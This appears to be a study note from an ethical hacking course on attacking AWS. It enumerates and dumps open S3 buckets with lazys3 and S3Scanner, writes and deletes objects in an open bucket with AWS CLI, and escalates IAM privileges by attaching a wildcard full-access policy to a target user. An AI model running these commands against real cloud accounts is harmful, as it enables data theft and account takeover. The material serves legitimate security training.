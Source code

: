 # Cloud Computing
> Cloud computing delivers various types of services and applications over the Internet. These services enable users to use software and hardware managed by third parties at remote locations. Some well-known cloud service providers are Google, Amazon, and Microsoft.


Overview of Cloud Computing
- Cloud computing refers to on-demand delivery of IT capabilities, in which IT infrastructure and applications are provided to subscribers as metered services over a network. Cloud services are classified into three categories, namely infrastructure-as-a-service (IaaS), platform-as-a-service (PaaS), and software-as-a-service (SaaS), which offer different techniques for developing cloud.

Enumerate S3 Buckets using lazys3
- lazys3 is a Ruby script tool that is used to brute-force AWS S3 buckets using different permutations. This tool obtains the publicly accessible S3 buckets and also allows you to search the S3 buckets of a specific company by entering the company name.
- ` ruby lazys3.rb [Company] `

Enumerate S3 Buckets using S3Scanner
- S3Scanner is a tool that finds the open S3 buckets and dumps their contents. It takes a list of bucket names to check as its input. The S3 buckets that are found are output to a file. The tool also dumps or lists the contents of “open” buckets locally.
- ` python3 ./s3scanner.py sites.txt `
- Dump all open buckets and log both open and closed buckets in found.txt:
  - ` python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt `
- Just log open buckets in the default output file (buckets.txt):
  - ` python3 ./s3scanner.py names.txt `
- Save the file listings of all open buckets to a file:
  - ` python ./s3scanner.py --list names.txt `


S3 buckets are used by customers and end users to store text documents, PDFs, videos, images, etc. To store all these data, the user needs to create a bucket with a unique name.

Listed below are several techniques that can be adopted to identify AWS S3 Buckets:

- Inspecting HTML: Analyze the source code of HTML web pages in the background to find URLs to the target S3 buckets
- Brute-Forcing URL: Use Burp Suite to perform a brute-force attack on the target bucket’s URL to identify its correct URL
- Finding subdomains: Use tools such as Findsubdomains and Robtex to identify subdomains related to the target bucket
- Reverse IP Search: Use search engines such as Bing to perform reverse IP search to identify the domains of the target S3 buckets
- Advanced Google hacking: Use advanced Google search operators such as “inurl” to search for URLs related to the target S3 buckets


Exploit Open S3 Buckets using AWS CLI
- The AWS command line interface (CLI) is a unified tool for managing AWS services. With just one tool to download and configure, you can control multiple AWS services from the command line and automate them through scripts.
- ` aws configure `
  - It will ask for the following details:
    - AWS Access Key ID
    - AWS Secret Access Key
    - Default region name
    - Default output format
- `aws s3 ls s3://[Bucket Name]`
- ` aws s3 mv Hack.txt s3://certifiedhacker1 `
- `  aws s3 rm s3://certifiedhacker1/Hack.txt  `


Overview of Privilege Escalation

- Privileges are security roles assigned to users for using specific programs, features, OSes, functions, files, code, etc. to limit access depending on the type of user. Privilege escalation is required when you want to access system resources that you are not authorized to access. It takes place in two forms: vertical and horizontal.
- Horizontal Privilege Escalation: An unauthorized user tries to access the resources, functions, and other privileges of an authorized user who has similar access permissions
- Vertical Privilege Escalation: An unauthorized user tries to access the resources and functions of a user with higher privileges such as application or site administrators


Escalate IAM User Privileges by Exploiting Misconfigured User Policy
- A policy is an entity that, when attached to an identity or resource, defines its permissions. You can use the AWS Management Console, AWS CLI, or AWS API to create customer-managed policies in IAM. Customer-managed policies are standalone policies that you administer in your AWS account. You can then attach the policies to the identities (users, groups, and roles) in your AWS account. If the user policies are not configured properly, they can be exploited by attackers to gain full administrator access to the target user’s AWS account.

` aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json `
- user-policy.json
```json
{

"Version":"2012-10-17",

"Statement": [
{

    "Effect":"Allow",

    "Action":"*",

    "Resource":"*"

}
]
}
```

- ` aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy `
-  ` aws iam list-attached-user-policies --user-name [Target Username] `
-  `  aws iam list-users `
-  List of S3 buckets: ` aws s3api list-buckets --query "Buckets[].Name" `
-  User Policies: ` aws iam list-user-policies `
-  Role Policies: `aws iam list-role-policies`
-  Group policies: `aws iam list-group-policies`
-  Create user: ` aws iam create-user `


